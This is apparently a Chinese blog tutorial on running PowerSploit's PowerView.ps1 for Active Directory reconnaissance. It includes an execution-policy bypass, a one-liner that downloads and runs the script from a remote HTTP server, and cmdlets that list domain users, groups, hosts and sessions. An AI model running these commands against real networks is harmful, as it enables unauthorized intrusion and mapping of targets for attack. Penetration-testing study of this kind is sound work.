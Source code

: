 

本文主要讲的是PowerSploit用于搜索域信息的模块，其他模块用法一致。



PowerSploit的用法

==============



首先，我们想用里面哪个脚本，就先下载该脚本，然后导入该脚本，执行其中的模块。我们以PowerView.ps1脚本为例，该脚本主要用于搜集域信息。



我们先下载PowerView.ps1脚本到本地，然后在当前目录下打开cmd，执行以下命令执行PowerView.ps1脚本中的Get-NetDomain模块，如果要执行该脚本的其他模块，亦是如此



```
powershell -exec bypass Import-Module .\powerview.ps1;Get-NetDomain
```




![](https://img-blog.csdnimg.cn/20191118174035554.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



如果需要远程加载模块的话，我们先将PowerView.ps1放到我们的http服务目录下，然后执行以下命令



```
powershell -exec bypass -c IEX (New-Object System.Net.Webclient).DownloadString('http://xx.xx.xx.xx/powerview.ps1');import-module .\powerview.ps1;Get-NetDomain
```




![](https://img-blog.csdnimg.cn/20191118175702723.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



PowerView.ps1脚本的使用

------------------



PowerView.ps1脚本位于PowerSploit的Recon目录下，该模块主要用于域内信息的收集。



![](https://img-blog.csdnimg.cn/20191118175841525.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



该脚本有以下一些模块



```
Get-NetDomain               #查看域名称      
Get-NetDomainController     #获取域控的信息      
Get-NetForest               #查看域内详细的信息      
Get-Netuser                 #获取域内所有用户的详细信息      
Get-NetUser | select name   #获得域内所有用户名      
Get-NetComputer             #获得域内所有主机名      
Get-NetComputer *admin*     #获得域内主机名中带有admin的      
Get-NetGroup		    #获取域内所有组名      
Get-NetGroup *admin*        #获得域内组中带有admin的      1
Get-NetGroup -UserName test #查询test用户在哪些组中       1
Get-UserEvent		    #获取指定用户日志信息      1
Get-Netshare                #获取本机的网络共享      1
Get-NetProcess              #获取本机进程的详细信息      1
Get-NetOU            	    #获取域内OU信息      1
Get-NetFileServer	    #根据SPN获取当前域使用的文件服务器      1
Get-NetSession 		    #获取在指定服务器存在的Session信息      1
Get-NetRDPSESSION           #获取本机的RDP连接session信息      1
```